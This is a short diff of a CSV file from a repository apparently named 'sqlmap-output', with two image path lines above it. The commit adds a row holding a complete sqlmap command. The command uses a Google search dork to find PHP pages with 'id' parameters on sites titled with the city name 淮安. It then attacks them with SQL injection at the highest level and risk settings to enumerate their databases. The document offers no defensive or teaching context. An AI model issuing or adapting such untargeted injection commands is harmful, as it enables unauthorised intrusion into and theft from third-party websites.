

Before and after one commit to ultraow/sqlmap-output, a CSV file: results-07252016_0141pm.csv, drawn as a sheet; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/results-07252016_0141pm.csv
+++ b/results-07252016_0141pm.csv
+row 16: (empty)
+row 17: (empty)
+row 18: sqlmap -g "inurl:'.php?id' intitle:'淮安'" --batch --output-dir='output' --random-agent --level=5 --risk=3 --dbs -o
```
Also changed, not shown: results.csv, 29 other files.
